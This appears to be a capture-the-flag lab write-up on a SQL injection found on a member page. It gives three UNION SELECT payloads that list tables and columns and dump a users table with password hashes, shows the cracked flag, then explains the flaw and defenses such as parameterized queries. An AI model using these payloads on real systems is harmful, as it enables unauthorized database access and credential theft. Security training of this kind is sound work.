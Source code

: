 # SQL injection

## Found on

```
<ip>/?page=member
```

## How to exploit

The nmap tool informed of a possible Cross Site Request Forgeries (CSRF) vulnribility on this page.

What we found was an SQL Injection vulnribility.

Typing anything other than an id (integer) returns an SQL error. This gives an indication that the input is not sterilized before running a query.

This is very dangerous as attackers notice these things and mark inputs and fields like these as targets.  

1. To get table names:
```
3 union select null, concat (table_name) from information_schema.tables where table_schema = database ()
```

2. To get user table column names:
```
3 union select null, concat (column_name) from information_schema.columns where table_schema = database ()
```

3. To get all data of users:
```
3 union select NULL, concat (user_id, first_name, last_name, town, country, planet, Commentaire, countersign) from users
```

The last injection reveals this:
```
Surname : 5FlagGetThe424242Decrypt this password -> then lower all the char. Sh256 on it and it's good !5ff9d0165b4f92b14994e5c685cdce28
```

With these instructions getting the flag was easy.
1. Decript the hash -> FortyTwo
2. Encrypt the lowercase phrase with Sh256 -> fortytwo

## A brief explination of the SQL Injection

Typing any text into the input field returns this error:
```bash
Unknown column 'sminnaar' in 'where clause'
```
This gives me an idea of how the SQL is structured:
```bash
SELECT user WHERE id = sminnaar
```
In the case of the injection, the WHERE is completed by the 3 I entered and then the query is extended to include more queries.

This is then used to get information out of the database that I should not be able to access.

## How to protect against

* Use prepared statements or strerilize the input from the form.
* Using layered security minimizes the risk of vulnribilities being exposed.
* Using [Parameterized Queries in SQL](https://use-the-index-luke.com/sql/where-clause/bind-parameters)

## Resources:
* https://owasp.org/www-community/attacks/SQL_Injection
* https://portswigger.net/web-security/sql-injection/union-attacks
* https://dev.mysql.com/doc/refman/8.0/en/information-schema.html
* https://www.softwaretestinghelp.com/sql-injection-how-to-test-application-for-sql-injection-attacks/
